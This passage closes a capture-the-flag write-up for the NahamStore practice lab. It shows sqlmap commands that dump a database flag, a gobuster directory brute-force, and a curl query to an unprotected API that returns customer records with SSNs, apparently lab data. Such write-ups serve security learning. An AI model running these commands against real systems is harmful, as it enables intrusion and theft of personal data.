{% code overflow="wrap" %}
```bash
dking@dking ~/Downloads$ sqlmap -r req.txt --batch --level 5 --risk 3 --dbs                                    
# available databases [2]:
[*] information_schema
[*] nahamstore
```
{% endcode %}

{% code overflow="wrap" lineNumbers="true" %}
```bash
sqlmap -r req.txt --batch --level 5 --risk 3 -D nahamstore --dump --threads 10 

# Database: nahamstore
Table: sqli_two
[1 entry]
+----+------------------------------------+
| id | flag                               |
+----+------------------------------------+
| 1  | {212ec3b036925a38b7167cf9f0243015} |
```
{% endcode %}

## Task 3

After completing the RCE section and reading the host file we can go forward.

{% code overflow="wrap" %}
```bash
gobuster dir -u http://nahamstore-2020-dev.nahamstore.thm -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -b 404,403 --no-error -t 200

/api
/customers
```
{% endcode %}

When we hit [http://nahamstore-2020-dev.nahamstore.thm/api/customers/](http://nahamstore-2020-dev.nahamstore.thm/api/customers/), there is an error message: `"customer_id is required"` so we know the parameter to provide.

```bash
dking@dking ~/Downloads$ curl "http://nahamstore-2020-dev.nahamstore.thm/api/customers/?customer_id=2" -s | jq
{
  "id": 1,
  "name": "Rita Miles",
  "email": "rita.miles969@gmail.com",
  "tel": "816-719-7115",
  "ssn": "366-24-2649"
}
{
  "id": 2,
  "name": "Jimmy Jones",
  "email": "jd.jones1997@yahoo.com",
  "tel": "501-392-5473",
  "ssn": "521-61-6392"
}

```

And we get answer for Task 3.

Done!

Learned a lot from this room 🤗

